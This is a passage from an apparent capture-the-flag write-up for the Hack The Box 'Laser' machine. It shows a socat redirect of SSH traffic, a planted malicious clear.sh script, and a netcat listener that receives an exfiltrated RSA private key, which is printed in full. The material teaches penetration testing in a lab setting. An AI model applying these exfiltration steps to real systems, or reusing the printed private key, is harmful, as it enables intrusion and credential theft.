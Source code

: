 For some reason I was unable to SSH in at one point while fixing up everything \(it took me a number of tries to get it to work properly, as there was something causing the connection to the container to timeout after a short time!\).  Running the command it mentioned in the error message:`ssh-keygen -f "/var/solr/.ssh/known_hosts" -R "172.18.0.2"` cleared the error and allowed me to log in again.

```text
root@20e3289bc183:~# ./socat -d TCP-LISTEN:22,fork,reuseaddr TCP:172.17.0.1:22
```

The process that would run my malicious `clear.sh` also deleted my file, so I had to keep putting it back in place.  After recreating the script I started the `socat` redirect again.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ nc -lvnp 9099
listening on [any] 9099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.201] 38660
-----BEGIN RSA PRIVATE KEY-----
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
-----END RSA PRIVATE KEY-----
```

